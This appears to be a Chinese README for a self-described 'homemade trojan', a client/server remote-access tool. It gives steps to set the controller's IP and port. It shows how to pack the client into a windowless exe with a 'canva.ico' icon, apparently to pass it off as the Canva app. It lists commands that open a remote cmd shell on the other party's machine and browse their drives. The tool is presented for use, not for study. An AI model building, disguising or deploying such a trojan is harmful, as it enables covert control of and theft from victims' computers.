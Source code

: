 # Qma
自制小木马，一个客户端，一个服务端（持续更新中...）

## 使用方法

### 1. 修改server.py

```
HOST = '172.29.41.16' #HOST为服务器IP，如果是公网服务器，要修改为公网服务器的内部ip
PORT = 65000  #端口
```

### 2.修改client.py

```
HOST = '172.29.41.16'  #服务器IP
PORT = 65000 #和服务器端口一致
```

设置完之后可以将client.py打包成exe更佳，打包方法

```
#在CMD输入，安装pyinstaller库
pip install pyinstaller -i https://pypi.tuna.tsinghua.edu.cn/simple/
#打包成exe
pyinstaller -F -w -i canva.ico client.py
```

### 3.运行server.py

```
python server.py
```

等待客户端启动



## 功能介绍

#### 1.启动客户端cmd功能

`cmdon`:

(例：查看对方C盘目录)

`dir /d /a C:`

![1](.\image\1.png)

(例：打开记事本)

`notepad`

![1](.\image\2.png)

(例：ping百度)

![1](.\image\3.png)

关闭cmd

`cmdoff`

![1](.\image\4.png)



#### 2.查看对方目录

使用dir命令太过繁琐

可以直接使用`tron`

打开功能

`tron`

![1](.\image\5.png)

查看E盘文件，命令`E://`

![1](.\image\6.png)

关闭功能

`troff`

![1](.\image\7.png)

#### 3.主动关闭连接

命令`exit`

![1](.\image\8.png)
